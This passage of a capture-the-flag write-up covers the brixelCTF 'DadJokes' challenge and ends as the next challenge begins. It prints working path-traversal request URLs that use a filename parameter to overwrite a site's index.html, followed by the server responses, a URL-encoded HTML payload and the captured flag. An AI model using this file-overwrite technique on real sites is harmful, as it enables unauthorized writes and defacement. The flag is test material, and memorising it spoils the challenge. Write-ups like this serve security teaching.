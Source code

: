 ```
http://timesink.be/dadjokes/jokes/submit.php?filename=asdf.php&title=asdf&content=asdf&submit=true

```
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```

http://timesink.be/dadjokes/jokes/submit.php?filename=../asdf.php&title=asdf&content=asdf&submit=true

```
You're on the right track, but are you trying to be a bit naughty?
```

http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=asdf&content=asdf&submit=true

```
You are definitely on the right track here... but what are you trying to accomplish?
```

At this time I tried to do literally what the chall says and I write into the index.html the original content of the website encoded. I messed something on my payload, but [RazviOverflow](https://ctftime.org/user/72894) could make it to the flag with the following payload:

{% highlight html %}

<html>
<head>
	<title>DadJokes, your source of lame dad jokes</title>
</head>
<body>
	<div align="center">
		<h1>DadJokes</h1>
		<hr>
		<img src="images/banner.png" alt="dadjokes">
		<br><br>
		<a href="jokes/read.php">Read dad jokes</a>
		<br><br>
		<a href="jokes/submit.php">submit your own jokes</a>
	</div>
</body>
</html>

{% endhighlight %}


```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=index.html&content=%0A%3Chtml%3E%3Ctitle%3EDadJokes%2C%20your%20source%20of%20lame%20dad%20jokes%3C%2Ftitle%3E%3Cbody%3E%3Cdiv%20align%3D%22center%22%3E%3Ch1%3EDadJokes%3C%2Fh1%3E%3Chr%3E%3Cimg%20src%3D%22images%2Fbanner.png%22%20alt%3D%22dadjokes%22%3E%3Cbr%3E%3Cbr%3E%3Ca%20href%3D%22jokes%2Fread.php%22%3ERead%20dad%20jokes%3C%2Fa%3E%3Cbr%3E%3Cbr%3E%3Ca%20href%3D%22jokes%2Fsubmit.php%22%3Esubmit%20your%20own%20jokes%3C%2Fa%3E%3C%2Fdiv%3E%3C%2Fhtml%3E&submit=true
```

``` brixelCTF{lamejoke} ```


## Pathfinders 1
15

These f\*cking religious sects!

These guys brainwashed my niece into their demeted world of i-readings and other such nonsense.

```
